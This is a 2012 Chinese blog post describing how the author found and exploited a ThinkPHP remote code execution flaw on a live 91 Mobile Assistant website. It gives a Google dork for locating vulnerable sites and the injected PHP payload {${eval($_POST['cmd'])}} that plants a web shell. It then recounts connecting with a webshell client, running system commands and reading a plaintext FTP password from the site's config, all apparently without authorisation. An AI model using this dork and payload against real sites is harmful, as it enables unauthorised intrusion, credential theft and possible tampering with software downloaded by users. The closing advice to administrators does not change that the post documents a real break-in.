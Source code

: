 title: "91手机助手某站点漏洞及利用"
id: 130
date: 2012-07-19 20:39:59
tags: 
- ThinkPHP远程
- 渗透
categories: 
- 原创作品
- 技术文章
- 最新漏洞
---

其实这个漏洞也是偶然发现的，最近项目中用到了ThinkPHP框架习惯性的想到

了此框架的漏洞，那就顺便google了一下看看现在还有那些大点的站存在此漏洞

结果91.com这个字眼吸引了我。google:intitle:系统错误 thinkphp 91

[![](http://www.creturn.com/asset/uploads/2012/07/91_2.png "91_2")](http://www.creturn.com/asset/uploads/2012/07/91_2.png)

那就顺手测试一下啊结果存在远程命令执行漏洞
<!--more-->
如图：

[![](http://www.creturn.com/asset/uploads/2012/07/91_1.png "91_1")](http://www.creturn.com/asset/uploads/2012/07/91_1.png)

其实看到这个应该都知道该怎么利用了吧？ 直接后面接一句话{${eval($_POST['cmd'])}}

拿刀连上看看：

[![](http://www.creturn.com/asset/uploads/2012/07/91_3.png "91_3")](http://www.creturn.com/asset/uploads/2012/07/91_3.png)

可以看到已经连接上了

看看能执行命令不：

[![](http://www.creturn.com/asset/uploads/2012/07/91_4.png "91_4")](http://www.creturn.com/asset/uploads/2012/07/91_4.png)

可以看到desable_function 中应该没有禁止PHP执行系统命令，gcc完全可以使用，提取问题应该就不打了。

看看ThinkPHP的配置文件：

[![](http://www.creturn.com/asset/uploads/2012/07/91_5.png "91_5")](http://www.creturn.com/asset/uploads/2012/07/91_5.png)

可以看到里面竟然有ftp的明文密码。那么大家想想一下如果，不发分子拿到下载站点里面的权限

把正常的手机应用程序替换成为带有后门的程序，那么又有多少人的隐私收到威胁？

在此还是提醒管理员，如果应用到别人的框架，为了对大家负责人，请及时更新所采用框架的版本

以保证用户信息的安全性。
